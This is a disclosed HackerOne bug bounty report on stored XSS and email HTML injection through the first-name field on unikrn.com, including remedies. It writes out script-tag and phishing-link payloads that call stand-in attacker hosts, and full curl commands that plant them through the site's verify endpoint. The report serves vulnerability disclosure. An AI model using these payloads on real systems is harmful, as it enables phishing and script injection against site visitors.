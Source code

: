 # HTML injection in email in unikrn.com

## Report Details
- **Report ID**: 262004
- **URL**: https://hackerone.com/reports/262004
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-08-21T16:32:04.749Z
- **Disclosed**: 2017-08-23T08:21:40.908Z

## Reporter
- **Username**: coreyd97
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to verify and then potentially issue a bounty, so be sure to take your time filling out the report! **Please add the affected domain name in the Title of the report.**

**Summary:** Referral emails sent from unikrn.com are vulnerable to HTML injection via the first name field.

**Description:** Due to a lack of sanitization and validation when posting to https://unikrn.com/apiv2/user/verify a user may set a number of profile fields to values which should not be acceptable. This allows for a possible XSS within the raffle areas of the website and HTML injection within the referral email sent by unikrn.com.

The user may insert a payload into the firstname field which is later used to generate the users 'callsign'. The callsign value is safely used in other locations in the site within ng-bind attributes however in the case of viewing a raffle winner, the value is instead transformed by the 'vartrans' directive. This directive permits html to be inserted as part of the "raffle_winner_sidebar_body" text and is done so without any sanitization. 

Therefore should a user set their first name as '<script src=\"https://external.com/xss.js\" />' when the user wins a raffle, any visitor to that raffles page will result in the external script being loaded.

Alongside this XSS it was also found that should a user set their first name to a value containing a script tag, when a referral email is sent to an address, any email content after the script tag is ignored. As the field's maximum length is 256 characters, an attacker would have 248 characters to craft a malicious email or instead embed an image with the email content to allow for a larger word count. 

An example payload may be 
<a href=\"https://attacker/phish.php\"><img src=\"https://attacker/content.jpg\"></a><script>


Remedies for this would include proper sanitization of user fields when processed by the verify page and when passed as arguments to the vartrans directive to prevent similar issues in future, as well as a more strict content security policy and the stripping of all html characters when using user input within parameters to be used within an email.

## Steps To Reproduce:
## XSS:
  1. Use the provided curl command to set a users first name to an xss payload such as <script src=\"https://external2.com/xss.js\" />
  2. Win a raffle
  3. Visit the raffles page once you have been announced as a winner.
## Email HTML Injection:
 1. Use the provided curl command to set a users first name to a payload such as <a href=\"https://attacker/phish.php\"><img src=\"https://attacker/content.jpg\"></a><script>
2. Navigate to the profile page and send a referral email.

## Supporting Material/References:

XSS
* curl -i -s -k  -X $'POST' -H $'Content-Type: application/json' --data-binary $'{\"country\":\"GB\",\"firstname\":\"<script src=\\\"https://external2.com/xss.js\\\" />\", \"session_id\":\"SESSION_ID\"}'  $'https://unikrn.com/apiv2/user/verify'

Email HTML Injection
* curl -i -s -k  -X $'POST' -H $'Content-Type: application/json' --data-binary $'{\"country\":\"GB\",\"firstname\":\"<a href=\\\"https://attacker/phish.php\\\"><img src=\\\"https://attacker/content.jpg\\\"></a><script>\", \"session_id\":\"SESSION_ID\"}'  $'https://unikrn.com/apiv2/user/verify'




## Attachments
- Email_Content.png
